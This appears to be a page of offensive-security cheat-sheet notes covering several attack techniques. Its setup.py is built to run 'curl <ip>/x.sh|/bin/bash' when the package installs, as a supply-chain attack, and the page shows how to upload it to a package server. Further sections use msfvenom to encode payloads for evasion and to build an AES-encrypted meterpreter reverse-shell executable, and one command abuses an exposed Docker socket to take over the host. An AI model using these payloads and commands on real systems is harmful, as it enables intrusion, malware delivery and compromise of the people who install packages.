 # Misc

### PyPi Package Upload

Minimal Python Package:

```python
from distutils.core import setup
import os

if not "xct" in open("/etc/passwd").read():
    os.system("curl <ip>/x.sh|/bin/bash")
setup(name='xct',
      version='1.0',
      py_modules=[],
      )
```

Then you can do `python setup.py sdist upload -r local` do upload it to a remote server pypi server. This needs a configuration file in home:

```text
[distutils]
index-servers =
  local

[local]
repository: http://<>
username: <>
password: <>
```

### Encode existing payload with msfvenom

```bash
msfvenom -f raw -i 33 -a x86_64 --platform windows -e x86/shikata_ga_nai -p generic/custom PAYLOADFILE=<file> -o <enc_file>
```

Note that shikata-ga-nai does not work for x64 payloads, in this case we can use x64/zutto\_dekiru.

### Create encrypted payload with msfvenom

```text
msfvenom -p windows/x64/meterpreter/reverse_https LHOST= LPORT=443 --encrypt aes256 --encrypt-key mykey -f exe -o aes.exe
```

### Exposed Docker Socket RCE

```text
docker -H <ip>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

For file access cat /mnt/etc/passwd, for RCE chroot /mnt.

